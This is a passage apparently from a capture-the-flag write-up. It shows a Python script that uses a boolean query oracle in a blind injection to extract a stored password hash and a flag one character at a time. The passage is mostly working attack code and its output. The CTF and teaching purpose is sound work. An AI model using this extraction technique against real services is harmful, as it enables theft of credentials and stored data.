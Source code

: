 ```python
        if r is None:
            log.error("dayum char tries")
        if r:
            char_tries_real.append(c)

    log.info("bf alphabet: {!r}".format("".join(char_tries_real)))

    pw_len = 100

    # for every index, try all possible chars at that index
    # abort when no candidate is found (probably end of the string)
    password = []
    pr0 = log.progress("{}[:i] is: ".format(base_query))
    for i in range(pw_len):
        pr0.status("".join(password))
        pr = log.progress("password[{}] ==".format(i))
        for j, c in enumerate(char_tries_real):
            pr.status("{!r} ({}/{})".format(c, j, len(char_tries_real)))
            r = bool_query("{}[{}] is '{}'".format(base_query, i, c))
            if r is None:
                log.error("dayum")
            if r:
                pr.success(repr(c))
                password.append(c)
                break
        else:
            log.warning("couldn't find candidate for {}".format(i))
            break
    log.info("string is: {!r} ({})".format("".join(password), len(password)))

    return "".join(password)


find_str("$.users[0].password")
```

So what we got was

```
$CONFIGSALT$9c2137e18b28698e00f97428aca597a75c4526e90755fadb2704dc3c5ce6627b
```

Well damn. What are we supposed to do with this? Maybe the other fields are the
thing. I just guessed a fieldname:

```
In [16]: bool_query("$.users[0].flag")
Out[16]: True
```

Oh. 

```python
find_str("$.users[0].flag")
```
